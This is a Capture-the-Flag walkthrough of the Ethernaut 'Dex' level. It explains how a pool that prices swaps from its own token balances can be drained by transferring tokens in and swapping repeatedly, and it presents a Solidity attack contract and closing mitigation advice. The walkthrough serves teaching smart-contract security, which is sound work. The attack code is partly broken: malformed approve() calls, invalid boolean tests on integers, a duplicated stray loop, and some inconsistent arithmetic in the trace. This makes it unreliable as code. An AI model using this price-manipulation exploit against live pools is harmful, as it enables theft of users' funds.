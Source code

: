 # Ethernaut Walkthrough: Dex
## Welcome to KweenBirb's 23rd installment of Ethernaut walkthroughs!

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to Dex.sol, the 23rd challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in this directory and the .sol file in the src directory. Let's begin!

OpenZeppelin instructs us 'to hack the basic DEX contract below and steal the funds by price manipulation.` They later elaborate that the goal is to 'drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.'

Okay, wow! We're in the big leagues now huh? DeFi exploits on AMM liquidity pools! Let's get going, then.

## The price mechanism

Since Ethernaut hints that a 'bad' price reported by the smart contract is involved in the exploit, we begin by examining the price mechanism.

Price quotes for swaps are calculated by identifying the ratio of liquidity between the two tokens and then multiplying the ratio by the amount of token being sold. This is described by the getSwapPrice() function, where these steps are accomplished first by dividing the contract's balance of tokens to buy (parameter named 'to') by the contract's balance of tokens to sell (parameter named 'from'). That ratio is then applied to the supplied amount of tokens to sell to return the price quote.

```
function getSwapPrice(address from, address to, uint amount) public view returns (uint) {
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}
```

Here's a simple equation to illustrate:

```swapAmount = suppliedAmount * buyBalance/sellBalance```

## The swap() function mechanism

Great, now that we've identified how price is calculated, let's trace the execution of a swap() to see what we can glean:

```
function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

The swap function execution steps are as follows: 
1. limits parameters to only accept the two storage variables that store tokens for this pool;
2. checks to ensure msg.sender has enough 'from' tokens to perform swap using the provided uint amount
3. calls function to set swapAmount = suppliedAmount * newBalance/oldBalance
4. calls transferFrom on oldToken, transferring supplied amount to sell into this contract pool
5. calls approve on newToken, allowing this contract to spend swapAmount of desired token
6. calls transferFrom on newToken, transferring previously approved swapAmount to msg.sender, completing the (d)exchange

Knowing this, the easiest way to throw off the price recordkeeping would be to change the contract's balance of tokens for when it checks it in the getSwapPrice() function. Unfortunately for us, however, addLiquidity() is restricted by the onlyOwner modifier. But wait! That doesn't stop us from simply manually transferring tokens to the contract!

## Using a basic transfer to catalyze economic imbalance

We may not be able to call addLiquidity(), but using a regular ERC20 transfer() we can cause the calls to balanceOf(address(this)) in getSwapPrice() to return values the dex contract was not built to expect. The general process would look something like this:

```
    First, transfer() 10token1 to contract -> IERC20(token1).balanceOf(address(this)) == 110
        contract: 100 100 -> 110 100
        hacker:   10  10  -> 0   10
    swapAmount = 10 * 110 / 100  // 1.1 ratio means hacker can obtain 11 token1 in exchange for 10 token2
        contract: 110 100 -> 99 110
        hacker:   0   10  -> 11 0
    
    Second, swap again:
    swapAmount = 11 * 110 / 99  // == 12.2 so hacker can exchange 11 token1 for 12.2 token2
        contract: 99 110 -> 110 97.8
        hacker:   11 0   -> 0   12.2

    again:
    swapAmount = 12.2 * 110 / 97.8  // == 13.7 so hacker can exchange 12.2 token2 for 13.7 token1
        contract: 110 97.8 -> 96.3 110
        hacker:   0   12.2 -> 13.7 0

    again:
    swapAmount = 13.7 * 110 / 96.3  // == 15.6 so hacker can exchange 13.7 token1 for 15.6 token2
        contract: 96.3 110 -> 110 94.4
        hacker:   13.7 0   -> 0   15.6

    again:
    swapAmount = 15.6 * 110 / 94.4  // == 18.2
        contract: 110 94.4 -> 91.8 110
        hacker:  0   15.6  -> 18.2 0

    again:
    swapAmount = 18.2 * 110/ 91.8  // == 21.8
```

You get the point. By causing an initial imbalance of assets in the pool, we can bundle repeated swap calls to leverage the imbalance so that it expands until the entire balance of one side of the pool is drained. 

## Writing code to accomplish the hack

First we should set up our environment of imports and addresses needed to pull off the hack:

```
import "./Dex.sol";

contract Draino {
    address public token1;
    address public token2;
    address private hacker;
    Dex dex;

    constructor(address $your_ethernaut_instance_here) {
        dex = Dex($your_ethernaut_instance_here);
        token1 = dex.token1();
        token2 = dex.token2();
        hacker = msg.sender;
    }
}
```

With that framework in place, we can create SwappableToken instances on the addresses in storage and preemptively set max approvals from our address (hacker) to the malicious contract we're writing:

```
function drain() public {
    // approve this contract to spend both of user's initial 10tokens
    SwappableToken a = SwappableToken(token1);
    SwappableToken b = SwappableToken(token2);
    a.approve(hacker, address(this), (2**256 - 1));
    b.approve(hacker, address(this), (2**256 - 1));
}
```

Then we can commence the hack by transferring 10 token1 to the dex to cause a liquidity imbalance and transferring 10 token2 to the malicious contract we're writing so it can take the reins.

```
    // send 10 token1 to dex to initialize unexpected contract liquidity imbalance
    IERC20(token1).transferFrom(hacker, address(dex), 10);
    // obtain 10token2 liquidity from hacker to start exploit
    IERC20(token2).transferFrom(hacker, address(this), 10);
```

Since we'll want the contract to continually swap back and forth until one side of the liquidity pool reaches 0, we can use a while loop:

```
while (dex.balanceOf(token1, address(dex)) > 0 && dex.balanceOf(token2, address(dex)) > 0) {
            uint balance = dex.balanceOf(token1, address(this));

            // alternate swap in other direction
            if (balance == 0) { 
                balance = dex.balanceOf(token2, address(this));
                
                // set allowance for dex in from to msg.sender
                b.approve(address(this), address(dex), balance);

                // catch issue where swapAmount is set to 245, more than the dex pool holds!
                if (dex.getSwapPrice(token2, token1, balance) > 110) {
                    balance = 34;
                    dex.swap(token2, token1, balance);
                } else {
                    dex.swap(token2, token1, balance);
                }
            } else {
                a.approve(address(dex), balance);

                // catch same swapAmount == 245 issue in reverse direction
                if (dex.getSwapPrice(token1, token2, balance) > 110) {
                    balance = 34;
                    dex.swap(token1, token2, balance);
                } else {
                    dex.swap(token1, token2, balance);
                }
            }
        }




    IERC20(token1).transfer(dex, 10);  // send 10token1 to dex contract
    while (dex.balanceOf(token1, dex) > 0 || dex.balanceOf(token2, dex) > 0) {
        
        balance = dex.balanceOf(token1, msg.sender);
        if (!balance) { 
            balance = dex.balanceOf(token2, msg.sender);
            dex.swap(token2, token1, balance);
        }

        dex.swap(token1, token2, balance);

    }
}
```

suggestions for improvement:
never rely on 
1. centralized data sources for price and liquidity calculations
2. recordkeeping via ```address(this)``` as it can be circumvented with transfers or selfdestruct()

implement decentralized oracle data feeds like those of Chainlink to replace ```balanceOf(address(this))``` calls.
